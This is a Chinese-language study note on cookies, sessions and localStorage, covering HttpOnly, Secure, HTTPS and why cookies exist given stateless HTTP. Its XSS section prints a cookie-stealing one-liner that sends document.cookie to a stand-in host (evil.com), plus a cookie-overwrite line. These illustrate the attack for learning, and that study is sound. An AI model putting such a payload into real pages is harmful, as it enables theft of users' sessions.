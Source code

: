 > 1.  cookie
> 2. **session**
> 3. **localStorage**
>
> > Cookie通过在客户端记录信息确定用户身份，Session通过在服务器端记录信息确定用户身份。

- cookie、localStorage、sessionStorage既然是同源策略，为什么不安全呢？

  - 你可以设置httponly，即无法通过js读写.

  - 验证码 => 需要验证两个 cookie，一个验证的是用户名，一个验证的是随机数，由于是随机数

    故大大提高了难度

  - 利用加密方式防止明文值被破解

  - **强制要求开启HTTPS连接**

    服务器传送cookie时设置属性secure为true,表示创建的cookie只能在HTTPS连接中被浏览器传递到服务器端进行会话验证

  - 

  1. `xss攻击,` 盗取cookie的数据！获取私有用户的信息。 合肥项目的cookie开发环境的cookie的设置！

     ````js
     new Image().src=”http://www.evil.com?”+escape(document.cookie)
     ````

     即便secure开启且https => 你可以覆盖cookie的方法,对google进行了攻击

     ```js
     document.cookie=”user=admin;domain=’.test.com’;path=’/aaa’;secure;httponly”
     ```

  2. 

#### 1 cookie

- 为什么要有cookie

  1. 在下一个请求发送时，服务器无法确定这次请求和上次的请求是否来自同一个客

     户端。`如何让服务器知道不同的请求是否来自同一个客户端`

     HTTP是一种无状态的协议： 无状态是指Web浏览器与Web服务器之间不需要建立持久的连接。

     ​	虽然你可以设置为持久连接，但是一段时间以后服务器也是可以断开。不管怎么样，你始终保持着客户端无相关信息的状态。

     ⭐

     - 在服务器端不保留连接的有关信息， 故你不能通过服务器端发送信息给客户端
     - 客户端保存用户状态即使用cookie，这样就变成了有状态的请求。

  2. cookies就是http的一个扩展

     有两个http头部是专门负责设置以及发送cookie的,它们分别是`Set-Cookie`以及`Cookie`

     第一次请求无cookie， 而第一次的响应会有 set-cookie。

     第二次请求 + cookie

     - Set-Cookie
